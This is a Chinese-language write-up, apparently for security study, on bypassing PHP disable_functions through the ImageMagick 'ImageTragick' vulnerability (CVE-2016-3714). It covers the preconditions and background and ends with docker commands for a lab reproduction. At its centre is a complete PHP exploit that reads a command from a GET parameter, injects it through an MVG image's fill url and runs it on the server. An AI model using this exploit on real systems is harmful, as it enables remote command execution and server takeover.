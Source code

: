 
## 利用ImageMagick 漏洞绕过(CVE-2016–3714)

利用条件:

  * 目标主机安装了漏洞版本的imagemagick（<= 3.3.0）
  * 安装了php-imagick拓展并在php.ini中启用；
  * 编写php通过new Imagick对象的方式来处理图片等格式文件；
  * PHP >= 5.4

### ImageMagick介绍

ImageMagick是一套功能强大、稳定而且开源的工具集和开发包,可以用来读、写和处理超过89种基本格式的图片文件,包括流行的TIFF、JPEG、GIF、
PNG、PDF以及PhotoCD等格式。众多的网站平台都是用他渲染处理图片。可惜在3号时被公开了一些列漏洞,其中一个漏洞可导致远程执行代码(RCE),如果你处理用户提交的图片。该漏洞是针对在野外使用此漏洞。许多图像处理插件依赖于ImageMagick库,包括但不限于PHP的imagick,Ruby的rmagick和paperclip,以及NodeJS的ImageMagick等。

产生原因是因为字符过滤不严谨所导致的执行代码. 对于文件名传递给后端的命令过滤不足,导致允许多种文件格式转换过程中远程执行代码。

据ImageMagick官方，目前程序存在一处远程命令执行漏洞（CVE-2016-3714），当其处理的上传图片带有攻击代码时，可远程实现远程命令执行，进而可能控制服务器，此漏洞被命名为ImageTragick。EXP如下:

    
    
    <?php  
    echo "Disable Functions: " . ini_get('disable_functions') . "\n";  
      
    $command = PHP_SAPI == 'cli' ? $argv[1] : $_GET['cmd'];  
    if ($command == '') {  
        $command = 'id';  
    }  
      
    $exploit = <<<EOF  
    push graphic-context  
    viewbox 0 0 640 480  
    fill 'url(https://example.com/image.jpg"|$command")'  
    pop graphic-context  
    EOF;  
      
    file_put_contents("KKKK.mvg", $exploit);  
    $thumb = new Imagick();  
    $thumb->readImage('KKKK.mvg');  
    $thumb->writeImage('KKKK.png');  
    $thumb->clear();  
    $thumb->destroy();  
    unlink("KKKK.mvg");  
    unlink("KKKK.png");  
    ?>  
    

漏洞原理参考p牛文章:https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html

### 漏洞复现

获取和运行镜像

    
    
    docker pull medicean/vulapps:i_imagemagick_1  
    docker run -d -p 8000:80 --name=i_imagemagick_1 medicean/vulapps:i_imagemagick_1  
    